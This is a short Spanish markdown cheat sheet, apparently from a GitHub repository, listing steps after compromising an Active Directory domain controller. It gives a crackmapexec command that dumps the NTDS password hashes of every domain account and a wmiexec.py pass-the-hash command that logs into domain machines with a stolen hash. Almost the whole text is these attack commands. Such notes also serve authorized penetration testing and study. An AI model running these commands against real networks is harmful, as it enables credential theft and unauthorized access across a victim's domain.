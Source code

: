 # Cosas que hacer despues de comprometer el DC

## Dumpear el hash ntds de todos los equipos.
```
crackmapexec smb <ip_DC> -u 'Administrator' -p 'P@$$w0rd!' --ntds
```

## Pass The Hash
Esto te permitirá conectarte a los equipos del dominio sin proporcionar contraseña, hay varias herramientas para ello como wmiexec.py.
```
wmiexec.py <dominio>/<usuario>@<ip> -hashes <hash_ntds>
```
